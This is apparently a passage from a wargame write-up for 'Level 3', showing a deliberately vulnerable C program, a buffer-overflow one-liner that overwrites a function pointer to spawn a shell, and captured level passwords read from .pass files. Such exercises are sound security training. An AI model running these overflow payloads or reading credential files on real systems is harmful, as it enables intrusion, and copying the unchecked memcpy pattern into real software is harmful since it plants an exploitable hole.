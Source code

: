 ```
$ cat /home/level3/.pass
OlhCmdZKbuzqngfz
```

# 3. Level 3

```
$ cat /levels/level03.c
```

```cpp
#include <stdio.h>
#include <string.h>

void good()
{
    puts("Win.");
    execl("/bin/sh", "sh", NULL);
}

void bad()
{
    printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
    void (*functionpointer)(void) = bad;
    char buffer[50];

    if(argc != 2 || strlen(argv[1]) < 4)
        return 0;

    memcpy(buffer, argv[1], strlen(argv[1]));
    memset(buffer, 0, strlen(argv[1]) - 4);

    printf("This is exciting we're going to %p\n", functionpointer);
    functionpointer();

    return 0;
}
```

```
$ /levels/level03 `echo -e "123451234512345123451234512345123451234512345123451234512345123451234512345=\x74"`
This is exciting we're going to 0x8048474
Win.
```

```
$ cat /home/level4/.pass
7WhHa5HWMNRAYl9T
```
